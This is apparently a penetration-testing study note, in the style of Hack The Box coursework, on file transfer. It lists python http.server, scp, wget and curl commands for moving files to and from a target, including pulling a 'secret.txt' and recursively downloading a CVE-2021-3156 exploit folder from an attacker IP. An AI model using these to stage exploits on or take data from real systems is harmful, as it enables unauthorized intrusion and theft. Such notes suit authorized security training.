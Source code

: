 # Upload
#### **Method 1: `python` (Download from URL)**

```bash
python3 -m http.server 8000
```


# Downlaod
#### **Method 1: `scp` (Secure Copy - Requires SSH)**

```bash
# remote to local
scp username@target_ip:/path/to/file.txt /local/destination/
# example
scp htb-student@$rhost:/home/user/secret.txt ~/Downloads/

# local to remote
scp ./backupscript.exe ubuntu@$rhost:/home/ubuntu/
```

#### **Method 2: `wget` (Download from URL)**

```bash
wget http://your-ip/file.txt -O /tmp/file.txt
```

#### **Method 3: `curl`**

```bash
curl http://your-ip/file.txt -o /tmp/file.txt
```


## Download whole folder

```bash
 wget -r -np -nH --cut-dirs=1 http://10.10.15.40:8000/CVE-2021-3156
```